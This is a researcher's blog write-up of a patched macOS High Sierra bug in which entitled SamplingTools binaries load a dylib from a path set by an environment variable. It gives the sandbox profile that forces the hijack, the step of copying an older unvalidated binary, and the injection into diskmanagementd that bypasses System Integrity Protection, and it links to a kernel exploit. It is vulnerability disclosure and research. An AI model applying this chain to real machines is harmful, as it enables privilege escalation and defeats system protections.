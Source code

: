 ```yaml
---
layout:	post
title:	"Bypass macOS Rootless by Sandboxing"
date:	2018-06-18
image: /img/elevated.png
---
```


This bug has been fixed in Mojave Beta, but still present in latest High Sierra (10.13.5). It's a logic bug that an entitled binary tries to load an insecure external library controllable by environment variable. To exploit it we need to abuse sandbox, which is interesting that sometimes a mitigation could be turned to an exploit.

CoreSymbolication(`/System/Library/PrivateFrameworks/CoreSymbolication.framework`) has some private api for symbolication. When demangling swift application symbols, it tries to load external library in following order:

* /System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib
* /Developer/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib
* /usr/lib/libswiftDemangle.dylib
* `${xcselect_get_developer_dir_path()}`/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib

<!-- more -->

![](/img/AcYsN5lN3MwURaTyzmZYlg.png)

The function `xcselect_get_developer_dir_path` will return environ variable `DEVELOPER_DIR` if it's set. Absolutely controllable.

![](/img/5y2YMlFx8NPfDGRv3PXszg.png)

Actually the first `libswiftDemangle.dylib` candidate does exist. Will it reach the vulnerable branch? I'll talk about it later.

Apple has built-in `com.apple.SamplingTools` in:

```
/usr/bin/{filtercalltree,heap32,stringdups32,leaks32,heap,atos,vmmap32,sample,malloc_history32,symbols,vmmap,leaks,stringdups,malloc_history}
```

And they are entitled:

```shell
➜ ~ jtool --ent `which symbols`  
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "<http://www.apple.com/DTDs/PropertyList-1.0.dtd>">  
<plist version="1.0">  
<dict>  
 <key>com.apple.private.kernel.get-kext-info</key>  
 <true/>  
 <key>com.apple.system-task-ports</key>  
 <true/>  
</dict>  
</plist>
```

With this entitlement, SamplingTools can attach to SIP protected process with `task_for_pid`, even without root privilege.

```
$ vmmap Finder | head -n 8  
Process: Finder [42164]  
Path: /System/Library/CoreServices/Finder.app/Contents/MacOS/Finder  
Load Address: 0x10515f000  
Identifier: com.apple.finder  
Version: 10.13.5 (10.13.5)  
Build Info: Finder_FE-1054005004000000~3  
Code Type: X86–64  
Parent Process: ??? [1]
```

LLDB fails even it's root:

```
$ sudo lldb -n Finder  
Password:  
(lldb) process attach --name "Finder"  
error: attach failed: cannot attach to process due to System Integrity Protection
```

So this seems to be like a meta entitlement. With it you can just inject to other entitled process and gain arbitrary entitlement.

Let's just start an application compiled with swift, then run `symbols [pid] -printDemangling` and it will call CoreSymbolication!demangle, which has potential ability to load insecure code.

But there are two problems. First, the last branch looks impossible to be reached because `/System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib` exists.

Actually we can just block them with a sandbox. **Yeah, use the security facility to trigger something insecure.**

```lisp
(version 1)
(allow default)
(deny file-read*  
  (literal "/System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib")  
  (literal "/Developer/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib")  
  (literal "/usr/lib/libswiftDemangle.dylib")  
)
```

Then, spawn a child process with `symbols [pid] -printDemangling` to trigger dylib hijack.

Now we have a second problem. It crashes.

```
System Integrity Protection: enabled
Crashed Thread: 0 Dispatch queue: com.apple.main-threadException Type: EXC_BAD_ACCESS (Code Signature Invalid)  
Exception Codes: 0x0000000000000032, 0x000000010d745000  
Exception Note: EXC_CORPSE_NOTIFY
Termination Reason: Namespace CODESIGNING, Code 0x2
kernel messages:
External Modification Warnings:  
Process used task_for_pid().
VM Regions Near 0x10d745000:  
 MALLOC_LARGE 000000010d70a000-000000010d745000 [ 236K] rw-/rwx SM=PRV   
--> mapped file 000000010d745000-000000010d746000 [ 4K] r-x/r-x SM=PRV Object_id=2929ab85  
 mapped file 000000010d748000-000000010d762000 [ 104K] r--/r-- SM=ALI Object_id=2af85085Application Specific Information:  
dyld: in dlopen()  
/var/folders/4d/1_vz_55x0mn_w1cyjwr9w42c0000gn/T/tmp.0b5SeUjh/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib
12 libdyld.dylib 0x00007fff66c9fd86 dlopen + 86  
13 com.apple.CoreSymbolication 0x00007fff52d15332 invocation function for block in call_external_demangle(char const*) + 348  
14 libdispatch.dylib 0x00007fff66c64e08 _dispatch_client_callout + 8  
15 libdispatch.dylib 0x00007fff66c64dbb dispatch_once_f + 41  
16 com.apple.CoreSymbolication 0x00007fff52cb880f demangle + 298  
17 com.apple.CoreSymbolication 0x00007fff52cb85e3 TRawSymbol<Pointer64>::name() + 75  
18 com.apple.CoreSymbolication 0x00007fff52cbd88e CSSymbolGetName + 166
```

com.apple.SamplingTools in latest macOS are code signed with [Library Validation](https://developer.apple.com/library/archive/documentation/Security/Conceptual/CodeSigningGuide/Procedures/Procedures.html) flag, so loading unsigned dylib is prohibited.

```
➜ ~ codesign -dvvv `which symbols`  
Executable=/usr/bin/symbols  
Identifier=com.apple.SamplingTools  
Format=Mach-O thin (x86_64)  
CodeDirectory v=20100 size=1384 flags=**0x2000(library-validation) **hashes=36+5 location=embedded
```

I just happened to have an El Capitan virtual machine and I looked into it. The previous SamplingTools distribution has valid code signature, but no library validation flag. So just copy to High Sierra and it works.

Although we can now invoke `task_for_pid` on any restricted process, it still requires the same euid, which means we need a local root privilege escalation exploit as part of the chain.

Now inject into `diskmanagementd` and you'll have the `com.apple.rootless.install.heritable` entitlement, which means the privilege to modify `/System` and spawn a shell without rootless restriction.

The bug has been fixed in Mojave Beta, no more external library, finally.

![](/img/vAP5r0UBzDCQcnPl8WjDqA.png)

#### Update 2019–05–14

This bug be exploited for kernel privilege escalation. Please refer to the slides for my HITB Ams 2019 talk:

<https://conference.hitb.org/hitbsecconf2019ams/materials/D2T2%20-%20ModJack%20-%20Hijacking%20the%20MacOS%20Kernel%20-%20Zhi%20Zhou.pdf>

And here's the exploit to load an unsigned kernel extension on macOS 10.13:

[**ChiChou/sploits**](https://github.com/ChiChou/sploits/tree/master/ModJack)